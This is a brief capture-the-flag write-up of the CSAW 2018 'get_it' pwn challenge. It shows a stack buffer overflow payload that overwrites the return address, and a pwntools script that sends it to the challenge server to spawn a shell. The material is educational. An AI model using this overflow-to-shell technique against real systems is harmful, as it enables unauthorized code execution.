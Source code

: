 # get_it

This is an easy, 50-point binary exploitation problem from CSAW2018.

## Reconnaissance

For this problem it looks like I need to call the `get_shell` function, probably by overwriting the return address.

![IDA_display.png](./IDA_display.png)

Here's the stack when I have just read in some input:

![stack.png](./stack.png)

The return address is at `0x7ffc2ae35b68` in this case. So here's the exploit string:

`"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHAAAABBBB\xb6\x05\x40\x00\x00\x00\x00\x00\n"`

And the solve:

![get_it_solved.png](./get_it_solved.png)

Here's the code:
```
### exploit-get_it.py

from pwn import *
from time import sleep

local = False
if local:
    p = process('./get_it')
else:
    p = remote('pwn.chal.csaw.io', 9001)

sleep(1)
p.send("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHAAAABBBB\xb6\x05\x40\x00\x00\x00\x00\x00\n")
p.interactive()
```
